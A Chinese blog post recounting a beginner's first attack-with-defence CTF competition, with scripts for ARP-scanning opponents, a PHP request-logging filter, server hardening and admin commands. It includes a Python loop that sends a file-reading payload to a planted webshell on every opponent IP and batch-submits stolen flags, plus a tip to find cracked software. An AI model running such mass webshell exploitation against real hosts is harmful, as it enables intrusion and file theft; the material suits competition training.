

昨儿参加金科awd，小菜鸡的第一次awd，记录一下过程呗。 一、现场感觉咋样？ 现场有西瓜吃，然后吃了一下午瓜，┭┮﹏┭┮，先说说网络配置172.20.10n.1/2/3/4172.20.10n.101/102/103
当然一般应该不会直接告诉你其他队ip地址，自己扫一扫就行，保存在ip_file.txt中，不同网段修改IpScan的网段即可
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 from scapy.all import srp, Ether, ARPimport reIpScan = '192.168.1.1/24' ip_file=open ('ip_file.txt' ,'w' ) try : ans,unans = srp(Ether(dst="FF:FF:FF:FF:FF:FF" )/ARP(pdst=IpScan), timeout=2 ) except Exception as e: print(e) else : for send, rcv in ans: ListMACAddr = rcv.sprintf("%Ether.src%---%ARP.psrc%" ) print(ListMACAddr) Just_IP = rcv.sprintf("%ARP.psrc%\n" ) ip_file.write(Just_IP); ip_file.close()

二、获得了ip地址首先做了啥？ 开始其实没必要紧张，因为不是一开始就能被打，先半小时自己fix自己的服务器
1、登陆到ssh，修改密码 本次比赛大家的服务器ip和自己的mac地址绑定了，比赛方提供的ssh密码都是默认的弱密码，一个是ctf一个是admin一个是123456，所以先上自己的服务区后修改自己的密码直接输入passwd,然后会让你先输入自己的旧密码，再输入两遍新密码。
2、dump源码 这个真滴重要，因为确实作为运维不行的小辣鸡（指自己，一不小心服务器就挂了，当然还有就是以防别的队拿了shell搞事情，很内疚，因为操作失误，不小心删了别个主页，听我解释o((>ω< ))o！。
3、备份数据库 3个web有2个用了mysql，233，密码都是弱密码，所以找到配置文件查看mysql修改密码，最好是备份一份在自己本地
1 2 格式：mysql> set password for 用户名@localhost = password('新密码'); 例子：mysql> set password for root@localhost = password('123');
记得把服务里的代码也改一改
4、先找一句话木马 先拿D盾扫一遍查杀比较简单的木马传送门 python3多线程实例之批量检测webshell存活工具 ,最后面一个脚本需要你将源码放在本地，递归遍历每个文件，然后通过暴力测试能够找到隐藏的木马。
5、监控脚本 由于第一打的小比赛，waf就没装了（说到底也没几个访问我们的服务器，嘤嘤嘤，上一个流量监控脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 <?php error_reporting(0 ); define('LOG_FILEDIR' ,'./logs' ); if (is_dir(LOG_FILEDIR)); else { mkdir(LOG_FILEDIR,0777 ,true ); } function waf (if (!function_exists('getallheaders' )) { function getallheaders (foreach ($_SERVER as $name => $value ) { if (substr($name , 0 , 5 ) == 'HTTP_' ) $headers [str_replace(' ' , '-' , ucwords(strtolower(str_replace('_' , ' ' , substr($name , 5 )))))] = $value ; } return $headers ; } } $get = $_GET ; $post = $_POST ; $cookie = $_COOKIE ; $header = getallheaders(); $files = $_FILES ; $ip = $_SERVER ["REMOTE_ADDR" ]; $method = $_SERVER ['REQUEST_METHOD' ]; $filepath = $_SERVER ["SCRIPT_NAME" ]; foreach ($_FILES as $key => $value ) { $files [$key ]['content' ] = file_get_contents($_FILES [$key ]['tmp_name' ]); file_put_contents($_FILES [$key ]['tmp_name' ], "virink" ); } unset ($header ['Accept' ]);$input = array ("Get" =>$get , "Post" =>$post , "Cookie" =>$cookie , "File" =>$files , "Header" =>$header );logging($input ); } function logging ($var $filename = $_SERVER ['REMOTE_ADDR' ];$LOG_FILENAME = LOG_FILEDIR."/" .$filename .".txt" ;$LOG_FILENAME_JustParam = LOG_FILEDIR."/" .$filename ."Just_param" .".txt" ;$time = date("Y-m-d G:i:s" );file_put_contents($LOG_FILENAME , "\r\n" .$time ."\r\n" .print_r($var , true ), FILE_APPEND); file_put_contents($LOG_FILENAME ,"\r\n" .'http://' .$_SERVER ['HTTP_HOST' ].$_SERVER ['PHP_SELF' ].'?' .$_SERVER ['QUERY_STRING' ], FILE_APPEND); file_put_contents($LOG_FILENAME ,"\r\n***************************************************************" ,FILE_APPEND); file_put_contents($LOG_FILENAME_JustParam , "\r\n" .$time ,FILE_APPEND); file_put_contents($LOG_FILENAME_JustParam ," " .'http://' .$_SERVER ['HTTP_HOST' ].$_SERVER ['PHP_SELF' ].'?' .$_SERVER ['QUERY_STRING' ], FILE_APPEND); } waf(); ?>
然后你在其他文件加上require_once('waf.php');也可以拿一下命令所有php加上,源码和waf目录自己灵活一点变化
sudo find /var/www/html/<path> -type f -path "*.php" | xargs sed -i "s/<?php/<?php\nrequire_once('\/tmp\/waf.php');\n/g"
想象中是看别人的流量然后构造payload攻击其他人
6、当你能构造padload就可以批量攻击其他人了，不管别人修没修，从之前扫到的ip地址内读ip出来，打一下就完事了，处理好报错就行,比如请求的timeout设置小一点，不会那么卡 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 import sysimport requestsip_list=[] flag_txt=open ('flag.txt' ,'w' ) with open ('ip_file.txt' ,'r' ) as f: for line in f: ip_list.append(list (line.strip('\n' ).split(',' ))) def get_flag (ip_str ): url = "http://" +ip_str+"/1.php?key=readfile('./flag.txt');" print(url); try : s = requests.Session() source = s.get(url,timeout=1 ) if "flag" in source.text: flag_txt.write(source.text+"\n" ) print(url+" hacked " +source.text) else : print(url+" Is error " ) except KeyError as e: print('键错误' ) except IndexError as e: print('索引错误' ) except TypeError as e: print('类型错误' ) except ValueError as e: print('值的类型错误' ) except requests.exceptions.RequestException as e: print('超时' ) except Exception as e: print('错误' ) for ip_addr in ip_list: ip_str='' .join(str (i) for i in ip_addr) get_flag(ip_str) flag_txt.close()
get_flag函数根据需求自己改，把flag保留在flag.txt的中批量提交
7、批量提交flag 当对手太多了，可以写个批量提交脚本，orz本地提交系统居然有验证码？,提交需要提供别人flag个自己token，（当然也可能需要别人的ip，按需所取吧
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 import requestsjudge_url="http://192.168.1.114/1.php" self_token="Hello_kitty" flag_list=[] with open ('flag.txt' ,'r' ) as f: for line in f: flag_list.append(list (line.strip('\n' ).split(',' ))) def post_rep (flag, token ): param = { 'token' : token, 'flag' :flag } rep = requests.post(judge_url, data=param) print("send flag success " +flag+rep.text) for flag in flag_list: rel_flag='' .join(str (i) for i in flag) post_rep(rel_flag,self_token)
8、文件对比 当你发现自己文件被动了手教可以使用软件对比哪里变化了，推荐软件BeyondCompare 网上可以找找破解版
题目就不点评了，只能说自己php和运维能力是真滴虚，暑假努力了 运维小知识
php停止和重启（查杀不死马 1 2 3 service php-fpm start 开启 service php-fpm stop 停止 service php-fpm restart 重启
Nginx 启动
1 2 启动代码格式：nginx安装目录地址 -c nginx配置文件地址 [root@LinuxServer sbin]# /usr/local/nginx/sbin/nginx -c /usr/local/nginx/conf/nginx.conf
nginx的停止有三种方式：
1 2 [root@LinuxServer ~]# ps -ef|grep nginx [root@LinuxServer ~]# kill -QUIT 2072
强制停止
1 [root@LinuxServer ~]# pkill -9 nginx
重启
1 2 3 进入nginx可执行目录sbin下，输入命令**./nginx -s reload** 即可 或者 查找当前nginx进程号，然后输入命令：kill -HUP 进程号 实现重启nginx服务
Apache 基本的操作方法：
1 2 3 4 5 6 7 8 9 10 11 12 13 假设你的apahce安装目录为/usr/local/apache2，这些方法适合任何情况 apahce启动命令： 推荐/usr/local/apache2/bin/apachectl start apaceh启动 apache停止命令 /usr/local/apache2/bin/apachectl stop 停止 apache重新启动命令： /usr/local/apache2/bin/apachectl restart 重启 要在重启 Apache 服务器时不中断当前的连接，则应运行： /usr/local/sbin/apachectl graceful 如果apache安装成为linux的服务的话，可以用以下命令操作： service httpd start 启动 service httpd restart 重新启动 service httpd stop 停止服务
mysql
备份1 2 [root@localhost ~]# cd /var/lib/mysql (进入到MySQL库目录，根据自己的MySQL的安装情况调整目录) [root@localhost mysql]# mysqldump -u root -p Test>Test0809.sql，输入密码即可。
还原1 [root@localhost ~]# mysql -u root -p 回车，输入密码，进入MySQL的控制台"mysql>"，输入命令"show databases；"。
看看有些什么数据库；
1 2 3 4 建立你要还原的数据库，输入"create database voice；"，切换到刚建立的数据库，输入"use voice；"，回车；导入数据，输入"source voice.sql；"，回车，开始导入，再次出现"mysql>"并且没有提示错误即还原成功。 [root@localhost ~]# cd /var/lib/mysql (进入到MySQL库目录，根据自己的MySQL的安装情况调整目录) [root@localhost mysql]# mysql -u root -p Test<Test0809.sql，输入密码即可（将要恢复的数据库文件放到服务器的某个目录下，并进入这个目录执行以上命令|）。 moodle_bak.sql是需要恢复的文件名
ping 探测内网机器存活 for /l %i in (1,1,255) do ping -n 1 -w 60 192.168.1.%i | find "TTL"